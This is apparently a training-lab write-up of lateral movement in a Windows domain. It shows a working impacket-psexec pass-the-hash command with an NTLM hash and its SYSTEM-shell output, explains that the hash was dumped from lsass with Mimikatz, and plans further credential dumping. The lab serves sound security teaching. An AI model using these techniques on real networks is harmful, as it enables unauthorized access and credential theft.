

# Windows Attack Lab - Step 6A - Lateral Movement to FS1 via Domain User

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

On Kali Linux execute psexec from impacket collection. Goal: Connect to FS1 with pass-the-hash.  

```bash
─$ impacket-psexec -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.0.1.101.....
[*] Found writable share ADMIN$
[*] Uploading file pOCRUGEb.exe
[*] Opening SVCManager on 10.0.1.101.....
[*] Creating service gXAn on 10.0.1.101.....
[*] Starting service gXAn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Cmd prompt after connecting to FS1, verification this prompt is from FS1:
```
C:\Windows\system32> hostname
FS1

C:\Windows\system32> whoami
nt authority\system
```

Mark FS1 as owned doesn't help to find a path to a Domain Admin.


## Answers

* Where did you get the NTLM hash of user Aalfort from?
  * From last exercise (maintaining access)
  * With privilege escalation a local admin was created to use Mimikatz
  * With Mimikatz lsass was read to get the NTLM hash of Aalfort (Aalfort had an active session)
* How does psexec execute your commands on the remote machine (under-the-hood)?
  * psexec uses default shares ($ADMIN) of target pc to upload psexesvc
  * Then a service is remotely created on target with uploaded psexesvc
  * Remotely start service
  * With this service it's possible to forward commands to target pc and output will be redirected to the attacker client
  * (When stopping psexec the service will be stopped and removed)
* How does psexec authenticate against the remote machine?
  * Using the ntlm hash of Aalfort for pass-the-hash
  * Pass-the-hash has to be supported by the application because usually the application creates the hash after getting a password. Tools like `impacket-psexec` support to directly use the hash.
* Does PsExec pass the hash?
  * Yes
* What is the next logical step in your attack?
  * No direct "shortest path to Domain Admin" is found in Bloodhound
  * Dump credentials from lsass on FS1
    * DDrake has an active session on FS1
  * Because it's a fileserver there's a lot of data
    * Analyse this data to perhaps get credentials from scripts, word documents etc.
  * Next target could be WS1 because a Domain Admin (Ffast) has an active session on this server
    * But at this moment no path to WS1 is known